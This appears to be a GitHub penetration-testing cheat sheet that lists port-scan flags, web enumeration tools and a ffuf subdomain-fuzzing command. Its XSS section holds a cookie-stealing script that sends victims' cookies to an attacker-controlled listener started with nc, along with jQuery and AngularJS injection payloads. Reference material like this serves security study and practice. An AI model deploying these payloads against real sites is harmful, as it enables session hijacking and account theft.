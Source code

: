 # My Security Resources
- 來幫我按星星啦 Q__Q 
    - https://github.com/stevenyu113228/My-Security-Resources

---
[TOC]

## Scan
### Portscan
- nmap
    - Static Binary
        - https://github.com/ernw/static-toolbox/releases
        - https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/nmap.exe
    - Parameters
        - `-A` : Enable OS detection, version detection, script scanning, and traceroute
        - `-p-` : Scan all ports
        - `-p 1000-9999` : Scan port from 1000 to 9999 
        - `-sV` : Services version
        - `-Pn` : No ping
        - `--script=vuln` : Scan vulnerability
        - `-p139,445` : Only scan 139,445 port
        - `-sn` : Host ping scan
    - Fast UDP Scan
        - `sudo nmap -sUV -T4 -F --version-intensity 0 {IP}`
- RustScan
	- `rustscan -a 10.10.166.15`
	    - `-r 1-65535` : Port range from 1 to 65535
## Web
### Scan
- [Dirsearch](https://github.com/maurosoria/dirsearch)
- [Githack-python3](https://github.com/tigert1998/GitHack-py3)
- [FFUF](https://github.com/ffuf/ffuf)
    - Fuzz sub-domain
        - `ffuf -c -w /usr/share/dnsrecon/subdomains-top1mil-20000.txt -u http://{domain.name}/ -H "Host: FUZZ.{domain.name}" -fs {normal_size}`
        - Wordlist
            - https://github.com/danTaler/WordLists/blob/master/Subdomain.txt
            - `/usr/share/dnsrecon/subdomains-top1mil.txt`
### Front-End
#### XSS
- Cheatsheet
    - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- Steal Cookie
	- `<script>new Image().src="http://{my_ip}:1234/"+document.cookie</script>`
	- `nc -l 1234`
- JQuery
```
$(`h2:contains("<img src=1 onerror=alert(1)>"`)
$(`h2:contains(""<img src=1 onerror=alert(1)>`)
```
- Angular JS
    - `{{constructor.constructor('alert(1)')()}}`
- JS feature
    - `"<><meow>".replace("<",1).replace(">",2)` = `12<meow>`
        - Replace only apply first match 

